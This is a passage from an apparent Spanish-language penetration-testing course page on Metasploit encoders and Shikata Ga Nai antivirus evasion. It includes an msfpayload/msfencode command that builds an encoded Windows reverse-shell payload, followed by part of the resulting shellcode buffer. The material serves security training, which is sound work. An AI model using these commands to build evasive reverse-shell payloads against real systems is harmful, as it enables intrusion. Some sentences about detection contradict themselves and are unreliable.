 # Encoders

A lo largo de los 15 años de existencia del Metasploit Framework, los **Encoders** han asistido en la compatibilidad de **payloads** con diferentes arquitecturas de procesador, al mismo tiempo que ayudan en la evasión de antivirus. Los encoders son esenciales para modificar el payload para que funcione en diferentes sistemas operativos y arquitecturas. Estas arquitecturas incluyen:

* x64
* x86
* sparc
* ppc
* mips

Además, son necesarios para eliminar opcodes hexadecimales conocidos como **bad characters** del payload. La codificación del payload en diferentes formatos también puede ayudar a la detección por parte de los antivirus, como se mencionó anteriormente. Sin embargo, el uso de encoders exclusivamente para la evasión de antivirus ha disminuido con el tiempo, ya que los fabricantes de IPS/IDS han mejorado la forma en que su software de protección maneja las firmas en malware y virus.

**Shikata Ga Nai (SGN)** es uno de los esquemas de codificación más utilizados en la actualidad porque es tan difícil de detectar que los payloads codificados a través de este mecanismo ya no son universalmente indetectables. Lejos de eso, el nombre (仕方がない) significa "No se puede ayudar" o "No hay nada que se pueda hacer al respecto", y es correcto si lo leíamos hace unos años. Sin embargo, exploraremos otras metodologías para evadir sistemas de protección. Este artículo de FireEye detalla el por qué y el cómo del dominio anterior de Shikata Ga Nai sobre otros encoders.

## Seleccionando un Encoder

Antes de 2015, el Metasploit Framework contaba con diferentes submódulos que se encargaban de payloads y encoders. Estos estaban empaquetados por separado del script msfconsole y se llamaban **msfpayload** y **msfencode**. Estas dos herramientas se encuentran en `/usr/share/framework2/`.

Si queríamos crear nuestro propio payload, podíamos hacerlo a través de msfpayload, pero tendríamos que codificarlo de acuerdo con la arquitectura del sistema operativo objetivo utilizando msfencode después. Un pipe tomaría la salida de un comando y la alimentaría en el siguiente, lo que generaría un payload codificado, listo para ser enviado y ejecutado en la máquina objetivo.

```bash
sherlock28@htb[/htb]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .
```

